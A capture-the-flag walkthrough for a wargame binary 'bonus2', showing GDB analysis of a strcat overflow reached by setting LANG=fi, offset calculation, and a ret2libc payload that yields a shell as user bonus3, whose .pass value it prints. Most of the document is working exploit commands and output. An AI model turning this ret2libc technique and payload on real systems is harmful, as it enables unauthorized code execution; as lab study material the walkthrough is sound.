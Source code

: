 # 🚀 bonus2 Walkthrough
## 🧪 First step - Testing the program
```bash
$ ./bonus2
$ ./bonus2 coucou
Hello coucou
$ ./bonus2 coucou coucou
Hello coucou
$ ./bonus2 coucou coucou coucou
```
The program prints the second parameter.

## 🐞 Start in GDB
```bash
gdb-peda$ pdisas main
```
- Lots of things:
- - 2 calls to strncpy — possible overflow candidates.
- - 2 calls to memcmp comparing environment variable LANG with "fi" and "nl":

```asm
0x080485bc <+147>:	mov    DWORD PTR [esp+0x8],0x2
0x080485c4 <+155>:	mov    DWORD PTR [esp+0x4],0x804873d  # "fi"
0x080485cc <+163>:	mov    eax,DWORD PTR [esp+0x9c]
0x080485d3 <+170>:	mov    DWORD PTR [esp],eax
0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>

0x080485eb <+194>:	mov    DWORD PTR [esp+0x8],0x2
0x080485f3 <+202>:	mov    DWORD PTR [esp+0x4],0x8048740  # "nl"
0x080485fb <+210>:	mov    eax,DWORD PTR [esp+0x9c]
0x08048602 <+217>:	mov    DWORD PTR [esp],eax
0x08048605 <+220>:	call   0x8048360 <memcmp@plt>
```
Call to greetuser function:

```bash
gdb-peda$ pdisas greetuser
```
- Inside greetuser, a call to strcat — potential overflow here.

```bash
(gdb-peda)$ info function
...
0x08048460  frame_dummy
0x08048484  greetuser
...
```
- Another function frame_dummy does nothing important:

```bash
gdb-peda$ pdisas frame_dummy
```

## 🔍 Trying to overflow strcat with pattern
```bash
(gdb) r coucou $(cat /tmp/pattern)
Starting program: ./bonus2 coucou $(cat /tmp/pattern)
Hello coucou
[Inferior 1 (process 9596) exited with code 015]
```
No crash.
```bash
(gdb) r $(cat /tmp/pattern) coucou
Starting program: ./bonus2 $(cat /tmp/pattern) coucou
Hello AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJcoucou
[Inferior 1 (process 9599) exited with code 065]
```
No crash.\
```bash
(gdb) r $(cat /tmp/pattern) $(cat /tmp/pattern)
Starting program: ./bonus2 $(cat /tmp/pattern) $(cat /tmp/pattern)
Hello AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x08004848 in ?? ()
```
- Segfault!

```bash
(gdb) i r
```
- The pattern appears in EIP and partial EIP — proof of buffer overflow.

## 🔎 Find which argument overflows
```bash
(gdb) r $(python -c 'print "B"*200') $(python -c 'print "A"*200')
Starting program: ./bonus2 $(python -c 'print "B"*200') $(python -c 'print "A"*200')
Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
```
- Crash address 0x41414141 ('AAAA') means second argument causes overflow.

## 🌍 LANG env variable influence
- The LANG env variable is checked and stored in a global "language".
- It changes greeting in greetuser.
Try running with LANG=fi:

```bash
$ LANG=fi gdb bonus2
(gdb) r $(python -c 'print "B"*200') $(python -c 'print "A"*200')
Starting program: ./bonus2 $(python -c 'print "B"*200') $(python -c 'print "A"*200')
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
- Got EIP overwrite with greeting in Finnish — perfect.

## 🧮 Get the offset
```bash
(gdb) r $(python -c 'print "B"*200') $(cat /tmp/pattern)
Starting program: ./bonus2 $(python -c 'print "B"*200') $(cat /tmp/pattern)
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()
```
- EIP contains 0x46464545 (which corresponds to "EEFF" in pattern).
- Using offset script (/get_offset.py 45) → offset 16.
- Since it's the third E in EIP, offset = 16 + 2 = 18.

## 🔧 Prepare for ret2libc
Need addresses of:
- system
- "/bin/sh" string
- exit

Check `"/bin/sh"` string:

```bash
(gdb) info proc map
# find libc mapped address range here (e.g., 0xb7e2c000 - 0xb7fcf000)
(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
```
Check string at address:

```bash
(gdb) x/s 0xb7f8cc58
0xb7f8cc58: "/bin/sh"
```
Check system function address:

```bash
(gdb) info function system
Non-debugging symbols:
0xb7e6b060  system
```
Check exit function address:

```bash
(gdb) info function exit
# exit address = 0xb7e5ebe0
```

## 🛠 Build the payload
Payload format:
```perl
("B" * 18) + (EIP = system address) + (RET = exit address) + ("/bin/sh" address)
```
In Python:
```bash
python -c 'print "B"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'
```

## 🎯 Exploit!
```bash
$ LANG=fi ./bonus2 $(python -c 'print "A"*200') $(python -c 'print "B"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`�����X���

$ whoami
bonus3

$ cat ~bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
- 🎉 Done!
